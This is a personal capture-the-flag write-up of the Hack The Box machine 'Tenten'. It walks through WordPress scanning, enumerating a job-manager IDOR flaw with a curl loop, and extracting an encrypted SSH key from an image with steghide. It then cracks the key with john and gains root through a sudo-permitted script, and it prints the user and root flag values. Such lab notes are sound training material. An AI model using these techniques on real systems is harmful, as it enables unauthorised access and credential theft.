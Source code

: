 #Linux 



![[Pasted image 20240729085244.png]]

![[Pasted image 20240729085431.png]]


Update `/etc/hosts` to review web server on Port 80
![[Pasted image 20240729085845.png]]

**Worpress 4.7.3**
![[Pasted image 20240729090004.png]]

**WPSCAN**
**MITRE**
#TTP 
`T1595.002: Reconnassaince - Vulnerability Scanning`
![[Pasted image 20240729160444.png]]

```
sudo wpscan --url http://tenten.htb --random-user-agent --max-threads 10 --enumerate
```

\
Potential User Account Discovered
![[Pasted image 20240729161034.png]]

This seems interesting - No Vuln output due to lack of API token.

Lets get one by registering with WPScan
![[Pasted image 20240729161717.png]]

![[Pasted image 20240729162029.png]]
(Dont get cheeky, This key has been destroyed)

Now scan with API Key:
```
sudo wpscan --url http://tenten.htb --random-user-agent --max-threads 10 --enumerate --api_token $WPAPI
```
![[Pasted image 20240729162747.png]]



**IDOR**
==Insecure Direct Object Reference==
(IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly


What we find interesting is the plug-in associated with the job manager 
![[Pasted image 20240729163137.png]]


Navigating directly through the browser leads to a security researchers LinkedIn profile which I believe is the guy responsible for the discovery.

```
https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/
```



Running the url through `google.com` shows an exploit
![[Pasted image 20240729163618.png]]
```
https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef
```


Grab Exploit
![[Pasted image 20240729164034.png]]
![[Pasted image 20240729164613.png]]

This code seems to be discovering an uploaded content image and giving us access to potentially confidential information.

So we need to find the name of image to supply to the tool...
***

Navigating around the site reveals some kind of file upload associated with job management

```
http://tenten.htb/index.php/jobs/apply/8/
```
![[Pasted image 20240729164743.png]]


If there is a Object reference vuln, we may be able to pull down sensitive information from previously submitted resumes!

The Job Application field may be taking in resumes and uploading using the field name
***
**SCRIPTING**

Alright, we can use `curl` here to pull down the front end code of the URL from before
![[Pasted image 20240729170005.png]]

What we want to know is how the `Job Application` field changes

We can formulate a simple parsing tool to isolate for the `Job Application` field result like so:
![[Pasted image 20240729170143.png]]


Now use `cut` to further parse
```
curl -s http://tenten.htb/index.php/jobs/apply/8/ | grep -i entry-title | cut -d ">" -f 2 | cut -d "<" -f 1
```
![[Pasted image 20240729170225.png]]


Changing the object reference number produces different results. We could manually test but this could be wasted time so lets automate!

***
**Create For Loop in BASH**

The object number is the target in this URL
Take the previous `curl` command and ask BASH to iterate using a sequence from 1-25 and `echo` each iteration thats passed to the `curl` command
```
 for i in $(seq 1 25); do echo -n "$i"; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep -i entry-title | cut -d ">" -f 2 | cut -d "<" -f 1; done
```

This reveals a hidden page!
![[Pasted image 20240729170624.png]]

So now we must couple our finding with the exploit from earlier
![[Pasted image 20240729170954.png]]

![[Pasted image 20240729171108.png]]

Pull down the tool and investigate with `strings` `file` and `exiftool`
![[Pasted image 20240729171946.png]]

Nothing but we can also try `steghide`
![[Pasted image 20240729172140.png]]

```
seghide --info HackerAccessGranted.jpg
```
![[Pasted image 20240729172208.png]]

We find an embedded `id_rsa` file (private key) inside this image

Extract:
```
steghide extract -sf HackerAccessGranted.jpg
```
![[Pasted image 20240729172701.png]]

Seeing as the private key is encrypted, we will not be able to use it to ssh until we either crack the encryption or brute force the password (we also need `600` permissions on the file)
![[Pasted image 20240729173110.png]]

***
**SSH2JOHN**

Before we can use john the ripper to crack, we need to convert this file to a readable format for john to understand

Search teh entire filesystem for anything `2john` related ( this are the various john the ripper tools used to convert files to a readable format for john to crack)

```
sudo find / -iname *2john* -type f 2>/dev/null
```
![[Pasted image 20240729174025.png]]
![[Pasted image 20240729174136.png]]

```
python /usr/share/john/ssh2john.py id_rsa
```
![[Pasted image 20240729174710.png]]
![[Pasted image 20240729174722.png]]

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt
```
![[Pasted image 20240729174745.png]]
***

**Initial Foothold**
![[Pasted image 20240729174945.png]]

==user.tx : a65597a54b923ab9dc0b5974d59d3fb2==

***
**Priv Escalation**

I immediately run `sudo -l` for privilege misconfiguration and find a peculiar file named `fuckin`
![[Pasted image 20240729175356.png]]


Running the file as is, with `sudo` does nothing...
![[Pasted image 20240729175446.png]]
I figured it would be a binary and an unreadable file considering its location until I inspected the file with the `file` command

Considering its a script, I opened in `vim`
![[Pasted image 20240729175652.png]]

Its a simple script that accepts 4 arguments
So I supplied `/bin/sh` as argument 1 with `sudo` priv and obtained root

![[Pasted image 20240729175628.png]]

==root.txt : f030b5c6fdce44c55da8770466cc6903==



***

**FEROXBUSTER**

```
sudo feroxbuster --auto-tune --extract-links --threads 100 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --url http://tenten.htb
```
![[Pasted image 20240729091432.png]]

**Web-Press Login**
![[Pasted image 20240729091512.png]]


It may be possible to Brute-Force this page using default credentials but Im not too interested in this as it usually leads to a dead-end


